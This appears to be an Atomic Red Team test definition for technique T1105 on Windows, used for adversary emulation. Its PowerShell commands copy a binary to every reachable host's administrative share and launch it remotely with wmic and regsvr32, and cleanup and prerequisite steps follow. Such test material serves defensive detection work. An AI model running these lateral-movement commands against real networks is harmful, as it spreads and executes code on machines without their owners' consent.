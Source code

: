**Supported Platforms:** Windows


**auto_generated_guid:** 70f4d07c-5c3e-4d53-bb0a-cdf3ada14baf





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_file | Binary file to copy to remote machines | string | $env:comspec|
| exe_remote_folder | Path to store executable on remote machine (no drive letter) | string | &#92;Windows&#92;Temp&#92;T1105.exe|
| remote_drive_letter | Remote drive letter | string | C|


#### Attack Commands: Run with `powershell`! 


```powershell
$machine_list = "PathToAtomicsFolder\..\ExternalPayloads\T1105MachineList.txt"
$offline_list = "PathToAtomicsFolder\..\ExternalPayloads\T1105OfflineHosts.txt"
$completed_list = "PathToAtomicsFolder\..\ExternalPayloads\T1105CompletedHosts.txt"
foreach ($machine in get-content -path "$machine_list")
{if (test-connection -Count 1 -computername $machine -quiet) 
{cmd /c copy "#{binary_file}" "\\$machine\#{remote_drive_letter}$#{exe_remote_folder}"
echo $machine >> "$completed_list"
wmic /node: "$machine" process call create "regsvr32.exe /i #{remote_drive_letter}:#{exe_remote_folder}"}
else
{echo $machine >> "$offline_list"}}
```

#### Cleanup Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\T1105CompletedHosts.txt") 
{foreach ($machine in get-content -path "PathToAtomicsFolder\..\ExternalPayloads\T1105CompletedHosts.txt")
{wmic /node: "$machine" process where name='"regsvr32.exe"' call terminate | out-null
Remove-Item -path "\\$machine\#{remote_drive_letter}$#{exe_remote_folder}" -force -erroraction silentlycontinue}}
Remove-Item -path "PathToAtomicsFolder\..\ExternalPayloads\T1105OfflineHosts.txt" -erroraction silentlycontinue
Remove-item -path "PathToAtomicsFolder\..\ExternalPayloads\T1105CompletedHosts.txt" -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: Binary file must exist at specified location (#{binary_file})
##### Check Prereq Commands:
```powershell
if (Test-Path #{binary_file}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
write-host "The binary_file input parameter must be set to a binary that exists on this computer."
```
##### Description: Machine list must exist at specified location ("PathToAtomicsFolder\..\ExternalPayloads\T1105MachineList.txt")
##### Check Prereq Commands:
```powershell
```